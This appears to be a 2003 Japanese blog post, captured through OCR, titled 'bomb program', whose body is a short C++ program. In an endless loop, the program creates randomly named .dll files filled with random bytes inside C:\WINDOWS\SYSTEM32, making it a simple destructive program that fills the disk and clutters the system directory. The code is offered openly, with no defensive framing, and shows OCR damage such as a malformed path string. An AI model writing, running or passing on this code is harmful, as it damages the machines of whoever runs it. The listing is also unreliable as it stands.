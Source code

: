 ```yaml
---
title: "爆弾プログラム"
post_id: "3093"
date: "2003-12-12T11:00:00+09:00"
draft: false
image: null
tag: []
---
```



#include <string>

    #include <fstream>

    #include <cstdlib>

    void main( void ){

     using namespace std;

     string dir = "C:\\WINDOWS\SYSTEM32\";

     while( 1 ){

      string name;

      int rnd = rand();

      for( int i = 0; i < ( rnd >> 10 ); i++ ){

       name.resize( name.size() + 1 );

       name[ i ] = 0x61 + ( rand() >> 11 );

      }

      ofstream file( ( dir + name + ".dll" ).c_str() );

      for( int j = 0; j < rnd; j++ ) file << ( char )rand();
    file.close();

     }

    }
